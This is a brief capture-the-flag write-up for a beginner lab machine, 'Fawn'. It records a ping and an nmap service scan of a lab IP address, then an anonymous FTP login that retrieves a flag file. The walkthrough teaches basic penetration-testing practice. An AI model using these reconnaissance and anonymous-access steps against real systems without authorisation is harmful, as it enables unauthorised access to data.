 # Box
Name: Fawn
ID: 2
Difficulty: Easy

## 🛠️ Attacker Environment
- **Host OS**: Parrot Security OS (VM)

## 🛠️ Tools Used
  - `ping`
  - `nmap`
  - `ftp`

## 🎯 Target Environment
- **IP Address**: 10.129.93.123
- **OS**: Unix

## 🧠 Recon
### 1. Basic Network Check  
```bash
ping 10.129.93.123
```
### 2. Nmap Scan
```bash
nmap -sV 10.129.93.123
```
## 🔍 Enumeration
Found an open port **21/tcp**, running **FTP** - allowed anonymous login.

### 2. FTP Client Installation
```bash
sudo apt install ftp -y
```

### 2. FTP Login
```bash
ftp 10.129.93.123
```
**Credentials:**
- **Username:** anonymous  
- **Password:** anon123

**Notes:**  
- Able to list and download files from the server using anonymous credentials.

## 💥 Exploitation
- Used FTP anonymous access to retrieve flag.txt

## 🔐 Privilege Escalation
N/A 

## 🧼 Cleanup & Lessons
- No Cleanup Required
- **Key takeaway**: Always test for anonymous FTP login; low-hanging misconfigs can lead directly to flags.
